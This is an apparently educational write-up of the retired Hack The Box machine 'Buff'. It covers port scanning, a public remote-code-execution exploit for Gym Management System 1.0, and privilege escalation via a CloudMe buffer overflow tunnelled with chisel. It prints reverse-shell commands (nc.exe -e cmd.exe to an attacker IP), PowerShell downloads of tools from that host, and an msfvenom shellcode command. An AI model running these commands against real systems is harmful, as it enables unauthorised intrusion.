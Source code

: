 ```yaml
---
title: "HTB Buff Writeup"
date: 2023-07-07
tags: ["CTF","Security"]
description: "Fun with chisel and Windows"
draft: false
type: page
---
```



# HTB "Buff" Writeup

"Buff" is an easy windows box that has been retired. It had a nice exploit from some outdated software for the initial access and required some port forwarding trickery for the privesc.


## Enumeration

We can start with nmap.

```bash
[~/htb/buff]$ nmap -p- -Pn 10.10.10.198
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-06 19:36 EDT
Nmap scan report for 10.10.10.198
Host is up (0.033s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```

7680 is not a port that I recognize here.

Moving on, to full service detection and scripts.

```bash
[~/htb/buff]$ nmap -sC -sV -p7680,8080 -Pn 10.10.10.198
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-06 19:39 EDT
Nmap scan report for 10.10.10.198
Host is up (0.030s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
``` 

This doesn't tell us much as I know from prior experience none of these service versions are really going to be vulnerable.


Browsing to the page, and looking around, we can find a footnote that says `Gym Management Software 1.0`.

Doing a `searchsploit "gym managment"`, provides us with an RCE exploit!

```bash
[Gym Management System 1.0 - Unauthenticated Remot | php/webapps/48506.py](<[~/htb/buff]$ searchsploit gym
-------------------------------------------------- ---------------------------------
 Exploit Title                                    |  Path
-------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection    | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scr | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remot | php/webapps/48506.py
WordPress Plugin WPGYM - SQL Injection            | php/webapps/42801.txt
-------------------------------------------------- --------------------------------->)
```

## Foothold

Running this script as `python 48506.py http://10.10.10.198:8080/` gives us a web shell. We can't do much here, so we will want to pivot out.

Something was killing payloads generated by msfvenom (defender was turned on I later learned). I also had trouble using certutil to upload so I used powershell and a simple nc.exe shell.

```cmd
powershell -c Invoke-WebRequest -Uri http://10.10.14.2/nc.exe -OutFile nc.exe
nc.exe -e cmd.exe 10.10.14.2 4444
```


## Privesc

From here I went through the gauntlet of searching for the proper privesc vector including starting with winpeas.

```cmd
powershell -c Invoke-WebRequest -Uri http://10.10.14.2/winPEASx64.exe -OutFile peas.exe
```

Turns out in our user, shauns, download folder there is an executable called `cloudme_1112.exe` additional enumeration through `tasklist` and `netstat` shows there is a process running internally on port 8888.

```cmd
netstat -ano | findstr TCP | findstr ":0" - find the pid
tasklist /v | findstr 2820
```

```cmd
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       6952
```

```cmd
  TCP        127.0.0.1             8888          0.0.0.0               0               Listening         3992            CloudMe
```

A searchsploit on cloudme revealed a remote buffer overflow.

```bash
[~/htb/buff]$ searchsploit cloudme
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                                                                                | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                                                                       | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                                                                       | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                                                                                      | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                                                                               | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)                                                                        | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                                                                                           | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                                                                       | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                                                                              | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                                                                                               | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                                                                            | windows_x86-64/remote/44784.py
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```

To run this properly we need to generate shell code like so:

```bash 
 msfvenom -p windows/exec CMD="c:\Users\shaun\Downloads\nc.exe -e cmd.exe 10.10.14.2 4444" -b '\x00\x0A\x0D' -f python -v payload
```

I uploaded netcat again to make sure my payload would not be borked.

And finally, what to do about the port only running internally?

We can chisel it out!

Start a listener on our machine:

```bash
./chisel server -p 1080 --reverse
```

Run the client on the compromised machine:

```cmd
.\chisel.exe client 10.10.14.2:1080 R:8888:127.0.0.1:8888
```

Then we can run our exploit with the shellcode that we generated dropped in and we are good to go.
